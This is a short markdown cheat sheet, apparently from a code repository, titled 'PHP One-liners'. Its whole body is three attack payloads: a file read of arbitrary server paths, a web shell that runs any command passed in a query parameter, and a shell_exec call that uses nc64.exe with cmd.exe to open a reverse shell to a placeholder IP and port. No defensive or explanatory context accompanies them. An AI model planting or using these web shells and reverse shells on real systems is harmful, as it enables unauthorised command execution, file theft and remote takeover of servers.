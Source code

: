 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`

Execute commands on the host:
`<?php $out=shell_exec('nc64.exe IP PORT -e cmd.exe'); echo '<pre>'.$out.'</pre>'; ?>`

